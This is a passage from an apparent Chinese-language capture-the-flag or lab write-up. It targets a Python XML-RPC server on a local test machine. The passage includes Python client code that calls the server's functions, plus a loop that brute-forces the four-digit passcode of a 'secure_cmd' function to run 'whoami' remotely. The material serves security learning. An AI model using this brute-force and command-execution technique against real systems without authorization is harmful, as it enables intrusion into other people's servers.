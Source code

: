 没有发现任何可用信息，并且响应的数据包也看不懂

重新回到代码，查看关于 SimpleXMLRPCServer 的相关介绍：[xmlrpc.client — XML-RPC client access — Python 3.10.7 documentation](https://docs.python.org/3/library/xmlrpc.client.html)，`SimpleXMLRPCServer`模块为使用 Python 编写的 XML-RPC 服务器提供了一个基本的服务器框架，直接查看链接，里面有清晰的示例，照着示例编写客户端的测试代码：

测试代码 1：

```plain
import xmlrpc.client

proxy = xmlrpc.client.ServerProxy("http://192.168.56.104:8000")
print(proxy.net())
```

[![](assets/1699406763-fa3ee59a532ce08052062a93edc5ffb3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104134-2abd16b4-7d17-1.png)

成功将代码中的 net 函数所执行的结果返回到本地，net 函数功能是将靶机的 ip 信息返回。

查看代码中存在一个函数`secure_cmd`，包含两个参数，第一个参数为命令，第二个参数相当于密码，在代码`debugging_pass = random.randint(1000,9999)`随机设置了一个密码，当我们传递的参数等于这个密码时，传入的命令就能够得到执行，这里可以爆破这个密码：

测试代码 2：

```plain
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    for i in range(1000,9999):
        message = proxy.secure_cmd("whoami",i)
        if message != "Wrong passcode.":
            print("cmd result:",message)
            print("Right passcode is:",i)
            break
        else:
            continue
```

[![](assets/1699406763-c7067b903d2ac6461cc3dae4665c227c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104155-370cd12a-7d17-1.png)
